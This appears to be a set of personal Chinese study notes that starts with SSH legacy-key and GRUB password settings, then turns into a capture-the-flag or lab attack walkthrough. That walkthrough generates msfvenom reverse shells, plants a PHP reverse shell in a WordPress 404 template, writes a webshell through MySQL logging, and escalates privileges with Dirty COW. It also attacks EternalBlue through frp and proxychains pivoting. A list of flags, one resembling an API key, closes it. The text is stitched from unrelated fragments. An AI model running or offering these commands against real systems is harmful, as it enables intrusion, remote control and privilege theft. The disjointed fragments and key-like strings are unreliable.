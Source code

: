 use ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```
[linux 6.6用户名密码,CentOS6.6设置grub密码的方法-CSDN博客](https://blog.csdn.net/weixin_28797725/article/details/116629461)
编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码
打开之后在hiddenmenu下一行输入，粘贴生成的md5码
password --md5 $1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```C
[root@localhost~]# grub-crypt --md5
Password:
Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```


```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```

```C
searchsploit dirty
locate linux/local/40847.cpp #定位40847.cpp的位置
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /tmp #将40847.cpp复制到/tmp目录下
```
下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c -o dirty -lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.44.128

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

python -c 'import pty; pty.spawn("/bin/bash")'

[内网渗透-利用frp代理流量后msf攻击内网永恒之蓝漏洞（ms17-010）-永恒之蓝利用失败的原因\_frp漏洞-CSDN博客](https://blog.csdn.net/weixin_42109829/article/details/122554815)

攻击机frps
```C
[common]
bind_addr = 0.0.0.0        # 设置监听的ip ，一般是你的外网ip，0.0.0.0表示都监听
bind_port = 8000           # 监听的端口，等待客户端连接 
dashboard_addr = 0.0.0.0   # frp网站服务器的ip，可以访问登录
dashboard_port = 7600       # frp网站服务器的端口，可以访问登录
dashboard_user = root       # frp网站服务账号
dashboard_pwd  = 123456    # frp网站服务密码
token = 1q2w3e             # 客户端的连接密码
heartbeat_timeout = 90     # 连接超时的时间
max_pool_count = 5		   # 允许连接的客户端数量
```

靶机frpc
```C
[common]
tls_enable = true
server_addr = *.*.*.*         # vps 服务器地址 
server_port = 8000          # vps服务器监听地址
token = 1q2w3e              # 设置的密码 ，设置完流量加密，不好解。      
pool_count = 5            # 将提前建立连接，默认值为 0
protocol = tcp              # 通信方式
health_check_type = tcp    # frpc 将连接本地服务的端口以检测其健康状态
health_check_interval_s = 100   # 健康检查时间间隔
[proxies]
remote_port = 6000  # 把流量转发到vps 那个端口 ，这个是重点等下会用到
plugin = socks5        #plugin 表示为插件 
use_encryption = true   
use_compression = true
```

50 45 --> 51 51
55 50 58 --> 51 51 51

第一套
flag1{b31036cc-75a9-4fcc-9259-2fd355585d69} index.php
          
flag3{e163fcd1-4326-4dc9-baa4-d315ee57e604} 姓名
           
flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c} cat /flag

flag7{26c81534-cf66-417c-97f0-b026a4e8c457} Game_Of_Life

flag9{e306552d-3573-4dc8-986f-fcd93f921e9b} systemview 13

give_the_Shykey:123456789012345678901234
flag{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} HeyChat


flag{213d12dd-f94c-4647-8bcb-f3136ac11f14} 数据库flag
flag{1c634ffd-5d02-4226-a503-85b555edb796}  win7桌面
flag{f4328e59-7b6d-4f29-b34f-f2d7ce0c685f}    rootflag.txt
